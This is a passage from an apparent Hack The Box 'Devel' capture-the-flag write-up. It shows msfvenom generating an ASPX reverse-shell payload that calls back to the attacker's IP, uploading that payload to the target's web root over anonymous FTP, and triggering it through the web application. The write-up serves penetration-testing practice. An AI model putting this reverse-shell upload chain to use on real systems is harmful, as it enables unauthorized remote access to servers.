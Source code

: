 ```bash
6 bytes sent in 00:00 (0.04 KiB/s)

```

![test](../../../assets/images/ctfs/hack_the_box/devel/test.png)

# Exploitation

---

Since we have write access to the root directory of the web server we should be able to upload a web shell.

Let's use MSFvenom to generate an _aspx_ payload.

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9001 -f aspx -o reverse-shell.aspx[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2735 bytes
Saved as: reverse-shell.aspx

```

Upload the payload to the FTP server.

```bash

┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ ftp 10.129.46.239
Connected to 10.129.46.239.
220 Microsoft FTP Service
Name (10.129.46.239:vagrant): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverse-shell.aspx
local: reverse-shell.aspx remote: reverse-shell.aspx
229 Entering Extended Passive Mode (|||49160|)
150 Opening ASCII mode data connection.
100% |****************************\*\*\*****************************| 2773 36.22 MiB/s --:-- ETA
226 Transfer complete.
2773 bytes sent in 00:00 (21.36 KiB/s)

```

Execute the reverse shell in the web application...

![execute](../../../assets/images/ctfs/hack_the_box/devel/execute.png)
